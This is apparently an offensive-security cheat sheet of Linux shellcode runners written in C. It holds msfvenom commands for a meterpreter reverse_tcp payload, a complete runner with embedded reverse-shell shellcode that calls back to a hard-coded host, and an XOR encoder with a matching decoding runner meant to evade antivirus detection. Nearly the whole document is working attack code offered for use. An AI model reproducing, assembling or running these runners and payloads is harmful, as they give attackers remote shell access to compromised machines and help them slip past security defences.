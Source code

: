     //msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f c
    //Compile and run:  gcc -o hack.out hack.c -z execstack


    **Compiling to work with older kernels/gcc:
    docker pull gcc:4.9
    docker run --rm -v "$PWD":/usr/src/myapp -w /usr/src/myapp gcc:4.9 gcc -o test.elf test.c
    //or use -static (might need to reduce size w/ UPX)

    //might need 32bit!!

    **set MeterpreterTryToFork true; set PrependFork true


    ###############WORKING RUNNER:###############
    /*
    //Replace SCSSIZE & PAYLOAD

    Simple ELF shellcode runner

    Reference:
            * https://tuttlem.github.io/2017/10/28/executing-shellcode-in-c.html 
            * https://stackoverflow.com/questions/27900201/create-and-test-x86-64-elf-executable-shellcode-on-a-linux-machine
            * https://man7.org/linux/man-pages/man2/mprotect.2.html
            * https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates
    */
    #include <unistd.h>
    #include <sys/mman.h>

    #define SCSSIZE 574

    // msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f c
    unsigned char PAYLOAD[SCSSIZE] = 
    "\x31\xff\x6a\x09\x58\x99\xb6\x10\x48\x89\xd6\x4d\x31\xc9"
    "\x6a\x22\x41\x5a\x6a\x07\x5a\x0f\x05\x48\x85\xc0\x78\x51"
    "\x6a\x0a\x41\x59\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01"
    "\x5e\x0f\x05\x48\x85\xc0\x78\x3b\x48\x97\x48\xb9\x02\x00"
    "\x20\xfb\xc0\xa8\x31\x79\x51\x48\x89\xe6\x6a\x10\x5a\x6a"
    "\x2a\x58\x0f\x05\x59\x48\x85\xc0\x79\x25\x49\xff\xc9\x74"
    "\x18\x57\x6a\x23\x58\x6a\x00\x6a\x05\x48\x89\xe7\x48\x31"
    "\xf6\x0f\x05\x59\x59\x5f\x48\x85\xc0\x79\xc7\x6a\x3c\x58"
    "\x6a\x01\x5f\x0f\x05\x5e\x6a\x7e\x5a\x0f\x05\x48\x85\xc0"
    "\x78\xed\xff\xe6";

    // msf template below
    //unsigned char PAYLOAD[SCSSIZE] = "PAYLOAD: ";

    int main(int argc, char *argv[]) {
        printf("I love programming.\n");
            // create executable memory
        mprotect((void*)((intptr_t)PAYLOAD & ~0xFFF), SCSSIZE, PROT_READ|PROT_EXEC);  
        int (*exeshell)() = (int (*)()) PAYLOAD;  
        (int)(*exeshell)(); // execute shellcode
        
            return 3;
    }


    ##########Another Basic Runner:##########
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    unsigned char buf[] = 
    ....
    int main (int argc, char **argv) 
    {
    // Run our shellcode
    int (*ret)() = (int(*)())buf;
    ret();
    }

    ###########################ENCODED RUNNER###########################
    #########Encoder:#########
    //msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f c
    // gcc -o encoder.out encoder.c; ./encoder.out

    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    unsigned char buf[] =
    ...........
    int main (int argc, char **argv) 
    {
    char xor_key = 'J';
    int payload_length = (int) sizeof(buf);
    for (int i=0; i<payload_length; i++)
    {
    printf("\\x%02X",buf[i]^xor_key);
    }
    return 0;
    }


    #########Runner:#########
    //Compile and run:  gcc -o hack.out hack.c -z execstack

    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    // Our obfuscated shellcode
    unsigned char buf[] = 
    "\x20\x73\x12\x45\x4F\x02\xCF\x8A...x32\x71\x02\xDD\x02\xF3\x48";
    int main (int argc, char **argv) 
    {
    char xor_key = 'J';
    int arraysize = (int) sizeof(buf);
    for (int i=0; i<arraysize-1; i++)
    {
    buf[i] = buf[i]^xor_key;
    }
    int (*ret)() = (int(*)())buf;
    ret();
    }
